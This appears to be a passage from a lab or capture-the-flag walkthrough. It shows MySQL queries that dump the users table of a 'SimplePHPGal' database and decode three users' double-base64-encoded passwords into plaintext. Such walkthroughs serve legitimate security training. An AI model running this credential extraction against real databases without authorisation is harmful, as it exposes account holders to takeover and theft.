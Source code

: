 ```
mysql> SHOW TABLES;
SHOW TABLES;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
SELECT * FROM users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.00 sec)

mysql>
```

The `users` table in the `SimplePHPGal` database contains stored credentials for the `josh`, `Michael`, and `Serena` users. The passwords seem to be base64-encoded. Let’s attempt to decode the credentials:

```
mysql> SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
+----------+--------------------------------------+
| username | CONVERT(FROM_BASE64(password), CHAR) |
+----------+--------------------------------------+
| josh     | TW9iaWxpemVIaXNzU2VlZHRpbWU3NDc=     |
| michael  | SG9ja1N5ZG5leUNlcnRpZnkxMjM=         |
| serena   | T3ZlcmFsbENyZXN0TGVhbjAwMA==         |
+----------+--------------------------------------+
3 rows in set (0.01 sec)
```

The passwords appear to be double-encoded. Let’s attempt to decode them one more time:

```
mysql> SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users;
+----------+---------------------------------------------------+
| username | CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) |
+----------+---------------------------------------------------+
| josh     | MobilizeHissSeedtime747                           |
| michael  | HockSydneyCertify123                              |
| serena   | OverallCrestLean000                               |
+----------+---------------------------------------------------+
3 rows in set (0.00 sec)

mysql>
```

